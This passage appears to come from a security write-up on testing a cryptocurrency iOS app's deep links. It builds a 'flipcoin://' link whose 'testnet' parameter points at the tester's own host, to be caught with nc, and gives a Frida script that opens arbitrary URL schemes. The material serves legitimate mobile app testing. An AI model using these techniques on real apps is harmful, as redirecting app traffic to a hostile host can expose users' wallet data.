 However, when attempting to execute the deep link with an empty `**_testnet_**` value, the application **unexpectedly crashes**. This raises some uncertainty about whether the initial assumption is actually correct.

5.6. Reconstructing the Deep Link
---------------------------------

Now, let’s get back to the main topic. After identifying an additional parameter, `**_testnet_**`, the next logical step is to verify whether this parameter can be used in the deep link we initially discovered via the QR code.

As a quick recap, the original deep link we found was:  
`**_flipcoin://0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=1_**`

Now, we will attempt to add the `**_testnet_**` parameter to it. Since there is a possibility that this parameter accepts a URL, we can try using our own host for this parameter. This can be tested using `**_nc_**` or other similar tools.

In short, the modified deep link would be:  
`**_flipcoin://0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=1&testnet=http://192.168.18.177_**`

_So how do we open this URL?_ There are multiple ways to do it. We can generate a QR code using a service like [qr-code-generator.com](https://www.qr-code-generator.com/) and scan it, or we can use Frida to execute it directly.

![](https://miro.medium.com/v2/resize:fit:875/1*9K15mFe1RS305VasxIs9Pg.png)Sample with QR Code Generator Service

**5.6.1. Testing Deep Link Parameters with Frida  
**Now, let’s say we choose Frida to make things simpler — so we don’t have to generate a QR code every time we modify the deep link. _But what kind of script do we need for this?_

As a reference, there’s a well-known Frida script called [**ios-deeplink-fuzzing**](https://codeshare.frida.re/@ivan-sincek/ios-deeplink-fuzzing/), that can be used to detect URL schemes, access deep links directly using Apple’s API, and even fuzz parameters to analyze how an app handles deep linking.

However, since our focus here is simply executing a specific deep link rather than performing a full fuzzing process, we can simplify the approach. Based on the original script, we modified it into the following minimal version:

```
if (ObjC.available) {
    var LSApplicationWorkspace = ObjC.classes.LSApplicationWorkspace;
    if (!LSApplicationWorkspace) {
        console.log("LSApplicationWorkspace not found!");
    } else {
        globalThis.execURL = function (url) {
            var workspace = LSApplicationWorkspace.defaultWorkspace();
            var success = workspace.openSensitiveURL_withOptions_(ObjC.classes.NSURL.URLWithString_(url), null);
            console.log("Attempted to execute URL:", url, "| Success:", success);
            return success;
        };

        console.log("execURL is now available. Use execURL('scheme://path') in Frida.");
    }
} else {
    console.log("Objective-C Runtime is not available!");
}

```
